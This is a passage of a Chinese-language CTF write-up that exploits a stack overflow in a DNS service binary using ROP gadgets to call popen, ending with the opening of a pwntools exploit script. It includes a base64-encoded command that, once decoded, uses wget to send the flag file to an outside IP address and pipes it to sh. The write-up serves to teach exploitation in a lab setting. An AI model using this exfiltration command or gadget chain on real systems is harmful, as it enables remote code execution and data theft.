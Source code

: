 不过由于不能发送`.`，不然`.`会被DNS解析之后替换成长度，所以可以选择base64之后发过去

````bash
$ echo "d2dldCBodHRwOi8vNjQuMjcuNi4xOTA6OTk5OS9gY2F0IC4vZmxhZ2A=" | base64 -d | sh
````

之后开始寻找好用的gadget

使用IDA pro 的Search-> text分别查找`call`和`_popen`可以找到：

![](https://pic.imgdb.cn/item/62d55d4df54cd3f9375d821f.png)

这样edx和eax就成为了调用`popen`时候的参数，我们的目标是调用

````c
popen('echo "d2dldCBodHRwOi8vNjQuMjcuNi4xOTA6OTk5OS9gY2F0IC4vZmxhZ2A=" | base64 -d | sh',"r")
````

观察栈溢出崩溃的时候的寄存器：

![](https://pic.imgdb.cn/item/62d55e2ff54cd3f9375e915f.png)

可以看到edx正好指向我的输入内容，但是eax的内容不理想，寻找去能够交换eax和edx的gadget：

````assembly
0x080525db: mov eax, 0; pop ebp; ret; 
````

这样可以修改eax为0

````assembly
0x0804b639: add eax, edx; add esp, 0x10; pop ebx; pop ebp; ret;
````

这样eax就被修改为了edx的值，之后再尝试控制edx的值到字符串 'r' 。

在bss上随便找下字符串‘r’的地址

![](https://pic.imgdb.cn/item/62d569d3f54cd3f9376cbdeb.png)

最后可以实现

![](https://pic.imgdb.cn/item/62d576d4f54cd3f9377ca091.png)

但是还是炸了，，，，，

原因是我把参数字符串保存在了栈的低地址，调用popen函数的时候有可能会覆盖掉这些字符串，从而出现错误。

所以我们考虑需要把这个字符串放到更低的位置，但是同时我们就需要增大eax的值。

不过正好由于我们是用add来控制edx的值，再把edx清0之后再赋eax一个初始值，然后再add edx就可以修改eax。

把字符串放到调用popen函数的下面（栈的高地址）最终反弹flag

![](https://pic.imgdb.cn/item/62d59be5f54cd3f937a09a66.png)

## 0x05 Exp

````python
# -*- coding: utf-8 -*-
from pwn import *
context(os='linux',arch='i386')
context.log_level = 'debug'
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF("./dns")

local = 1

if local:
    p = remote("127.0.0.1","9999",typ='udp')
else:
    p = remote("","")
````